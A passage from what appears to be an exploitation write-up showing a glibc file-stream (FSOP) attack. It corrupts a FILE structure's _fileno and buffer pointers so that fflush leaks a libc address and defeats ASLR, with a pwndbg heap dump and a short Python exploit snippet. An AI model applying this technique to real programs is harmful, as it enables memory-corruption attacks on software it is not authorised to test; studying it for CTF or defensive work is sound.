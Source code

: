 *Please note that my ASLR default address changed while doing this post, so that's why the address may change but not the offsets, so they will work regardless of ASLR or PIE*

From examining the *fflush* function, we know that it will flash all the buffers to IO, so if we manage to control the file descriptor or the _fileno we can attack the FileStream to make it write to stdout. For that we need to:

- Set the *_fileno* member to 1 (stdout)
- Set the *_IO_write_base* and *_IO_read_end* members to the base address we will leak.
- Set the *_IO_write_ptr* at the end of the buffer we want to leak.

With this, we will write to stdout the number of bytes we need, but, What to leak? Well, let's inspect the heap area around the pointers that we currently have in our Filestream.

```cmd
pwndbg> dq 0x55555555a400 40
000055555555a400     0000000000000000 0000000000000000
000055555555a410     0000000000000000 0000000000000000
000055555555a420     0000000000000000 0000000000000000
000055555555a430     0000000000000000 0000000000000000
000055555555a440     0000000000000000 0000000000000000
000055555555a450     0000000000000000 0000000000000000
000055555555a460     0000000000000000 0000000000000000
000055555555a470     00007ffff7feaf60 0000000000002011
000055555555a480     0000000000000000 0000000000000000
000055555555a490     0000000000000000 0000000000000000
000055555555a4a0     0000000000000000 0000000000000000
000055555555a4b0     0000000000000000 0000000000000000
000055555555a4c0     0000000000000000 0000000000000000
000055555555a4d0     0000000000000000 0000000000000000
000055555555a4e0     0000000000000000 0000000000000000
000055555555a4f0     0000000000000000 0000000000000000
000055555555a500     0000000000000000 0000000000000000
000055555555a510     0000000000000000 0000000000000000
000055555555a520     0000000000000000 0000000000000000
000055555555a530     0000000000000000 0000000000000000
```

We can observe that at offset 0x70 from 0x55555555a400 we can find a libc address. Let's try to write the address to stdout. For that, we need to set up the FileStream as below, using the python exploit script.


```python
trick(_fileno, 1)
trick(_IO_write_ptr, 0x78)
trick(_IO_write_base, 0x70)
trick(_IO_read_end, 0x70)
flush()
```
After executing the code above, we will receive a Glibc leak! We can transform it to an *int* and then print it. Also we can now calculate the libc base address. Notice that when you leak the LSB pointer, it should be 0x60. The output will print an extra char at the beginning that's why the leak looks "tricky" so we can use de "1-6" bytes
